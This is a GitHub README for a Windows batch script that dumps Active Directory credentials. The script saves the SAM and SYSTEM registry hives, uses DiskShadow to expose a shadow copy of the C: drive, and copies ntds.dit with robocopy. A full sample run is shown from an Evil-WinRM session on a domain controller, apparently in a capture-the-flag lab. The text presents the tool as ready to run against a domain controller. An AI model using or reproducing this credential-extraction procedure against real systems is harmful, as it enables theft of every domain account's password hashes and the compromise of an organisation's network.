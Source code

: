README file I guess
=======================================

It uses robocopy to exploit registry keys and robocopy while also iterating through drive letters with DiskShadow to expose a shadow copy of the NTDS directory for extraction.


Description:
-------------
- Deletes any existing NTDS, SAM, SYSTEM, and ntds.dit files in the current directory. 
- Saves the SAM and SYSTEM registry hives.
- Verifies that the C:\Windows\ntds directory exists.
- Iterates through drive letters from Z to A (skipping those in use) to find an available drive.
- Creates a DiskShadow script for you
- Runs DiskShadow and checks if the shadow copy is available.
- Uses Robocopy to copy the ntds.dit file from the exposed shadow copy, then renames it to NTDS.
- Cleans up temporary files (like shadow.dsh and diskshadow output logs) after execution.




USAGE:
======================================

Literally just run it LOL

```./script.bat```

example of it running:

```BAT
*Evil-WinRM* PS C:\Users\Administrator\Documents> .\script.bat
[*] Existing NTDS file found. Deleting it... <---------- Deleting previous reg keys
[*] Existing SAM file found. Deleting it...
[*] Existing SYSTEM file found. Deleting it...

[*] Saving registry hives...
The operation completed successfully.

The operation completed successfully.

[+] Registry hives saved successfully. <---------- Was able to download the SAM & SYSTEM hives

[*] NTDS directory detected.

[-] Drive letter Z is already in use. Skipping. <---------- Example of it finding drive letters in use
[-] Drive letter Y is already in use. Skipping. <---------- Example of it finding drive letters in use
[-] Drive letter X is already in use. Skipping. <---------- Example of it finding drive letters in use
[*] Attempting DiskShadow with drive letter W...
[+] DiskShadow script created with drive letter W.

[*] DiskShadow output for drive W: <---------- DiskShadow Output
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  14/02/2025 14:32:44

-> set context persistent nowriters
-> set metadata C:\Windows\Temp\file.cab
The existing file will be overwritten.
-> add volume C: alias mydrive
-> create
Alias mydrive for shadow ID {3b141c69-e0e4-427c-9086-11c0061017be} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {00eabb91-7f00-4036-beb0-e21d792a95ab} set as environment variable.

Querying all shadow copies with the shadow copy set ID {00eabb91-7f00-4036-beb0-e21d792a95ab}

        * Shadow copy ID = {3b141c69-e0e4-427c-9086-11c0061017be}               %mydrive%
                - Shadow copy set: {00eabb91-7f00-4036-beb0-e21d792a95ab}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 2/14/2025 2:32:44 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy4
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %mydrive% W:
-> %mydrive% = {3b141c69-e0e4-427c-9086-11c0061017be}
The shadow copy was successfully exposed as W:\.
->

[+] Shadow copy successfully created on drive W:  <---------- Shadowcopy being successful
[*] Copying ntds.dit using Robocopy... 

 Log File : C:\Users\Administrator\Documents\robocopy.log <---------- logs incase you need it
[+] Robocopy operation completed. Check robocopy.log for details.

[*] Renaming ntds.dit to NTDS...
[+] File successfully renamed to NTDS.

[*] Operation completed successfully.
Press any key to continue . . .

```



